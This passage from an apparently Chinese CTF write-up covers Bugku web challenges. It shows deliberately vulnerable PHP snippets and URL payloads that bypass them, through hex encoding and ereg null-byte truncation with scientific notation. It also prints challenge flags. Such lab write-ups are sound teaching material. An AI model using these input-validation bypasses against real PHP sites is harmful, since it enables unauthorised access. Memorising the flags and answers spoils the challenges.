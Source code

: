 	解答：

		十六进制等价于数字，十六进制编码
		http://120.24.86.145:9009/20.php?password=0xdeadc0de
		flag{Bugku-admin-ctfdaimash}
		
9. ereg正则%00截断 100

		http://120.24.86.145:9009/5.php
		<?php
		$flag = "xxx";
		if (isset ($_GET['password']))
		{
		if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
		{
		echo '
		
		You password must be alphanumeric
		';
		}
		else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)
		{
		if (strpos ($_GET['password'], '-') !== FALSE) //strpos — 查找字符串首次出现的位置
		{
		die('Flag: ' . $flag);
		}
		else
		{
		echo('
		
		- have not been found
		');
		}
		}
		else
		{
		echo '
		
		Invalid password
		';}}
		?>

	解答：

		ereg()%00截断
		strlen()
		科学计数法绕过
		strpos()
		http://120.24.86.145:9009/5.php?password=1e9%00*-*
		flag{bugku-dm-sj-a12JH8}

10. strpos数组绕过 150

		http://120.24.86.145:9009/15.php
		
		<?php
		$flag = "flag";
		if (isset ($_GET['ctf'])) {
		if (@ereg ("^[1-9]+$", $_GET['ctf']) === FALSE)
		echo '必须输入数字才行';
		else if (strpos ($_GET['ctf'], '#biubiubiu') !== FALSE)
		die('Flag: '.$flag);
		else
		echo '骚年，继续努力吧啊~';
		}
		?>
